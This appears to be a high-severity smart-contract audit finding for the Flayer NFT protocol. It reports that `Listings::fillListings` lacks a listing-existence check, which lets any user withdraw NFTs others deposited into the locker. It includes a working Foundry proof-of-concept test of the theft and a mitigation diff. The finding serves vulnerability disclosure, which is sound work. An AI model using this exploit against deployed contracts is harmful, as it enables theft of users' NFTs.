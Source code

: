 Wobbly Neon Hyena

High

# Users can call `Listings::fillListings` on unlisted NFTs, allowing them to steal NFTs deposited into the locker

### Summary

Users can deposit their tokens in the locker, and receive some tokens in return, these tokens should remain locked in that locket, until the token owner redeems/swaps that token. On the other hand, the `Listings` contract allows users to create listings for their tokens so that they can be sold for some price, when making a listing the NFT is sent to the locker:
```solidity
// We will leave a subset of the tokens inside this {Listings} contract as collateral or
// listing fees. So rather than sending the tokens directly to the user, we need to first
// receive them into this contract and then send some on.
locker.deposit(_listing.collection, _listing.tokenIds, address(this));
```
Buying a token is done by calling `Listings::fillListings`, which withdraws the token from the locker to the buyer:
```solidity        
// Transfer the listing ERC721 to the user
locker.withdrawToken(_collection, _tokenId, msg.sender);
```
However, when filling out a listing, the contract doesn't check if a listing for the requested tokens exists, this allows any user to sweep NFTs deposited into the locker, by calling `Listings::fillListings` for that token.

### Root Cause

`Listings::fillListings` doesn't check if the listing exits before performing the filling of the request token, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L528-L607).

### Impact

Users can steal "locked" tokens placed in the locker, without having a listing created for them.

### PoC

Add the following test in `flayer/test/Listings.t.sol`:

```solidity
function test_CanStealLockerNFT() public {
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );
    address bob = address(1);
    address alice = address(2);

    uint256 bobTokenId = 0;

    erc721a.mint(bob, bobTokenId);
    deal(address(collectionToken), alice, 1 ether);

    assertEq(erc721a.ownerOf(bobTokenId), bob);

    // Bob deposits his token into the locker
    vm.startPrank(bob);
    uint256[] memory tokenIds = new uint256[](1);
    erc721a.setApprovalForAll(address(locker), true);
    locker.deposit(address(erc721a), tokenIds);
    vm.stopPrank();

    assertEq(erc721a.ownerOf(bobTokenId), address(locker));

    // Alice calls fill listing on Bob's token, knowing no listing was created for it
    vm.startPrank(alice);
    uint256[][] memory tokenIdsOut = new uint256[][](1);
    tokenIdsOut[0] = new uint256[](1);
    tokenIdsOut[0][0] = bobTokenId;
    collectionToken.approve(address(listings), 1 ether);
    listings.fillListings(
        IListings.FillListingsParams({
            collection: address(erc721a),
            tokenIdsOut: tokenIdsOut
        })
    );
    vm.stopPrank();

    assertEq(erc721a.ownerOf(bobTokenId), address(alice));
}
```

### Mitigation

Check if valid listings exist for the tokens to be filled, by adding something like the following in `Listings::fillListings`:

```diff
function fillListings(
    FillListingsParams calldata params
) public nonReentrant lockerNotPaused {
    ...

    // Iterate over owners
    for (
        uint256 ownerIndex;
        ownerIndex < params.tokenIdsOut.length;
        ++ownerIndex
    ) {
        ...

        // Reset our owner for the group as the first owner in the iteration
        owner = _listings[collection][params.tokenIdsOut[ownerIndex][0]]
            .owner;

+       if (owner == address(0)) revert ListingNotAvailable();

       ...
    }

    ...
}
```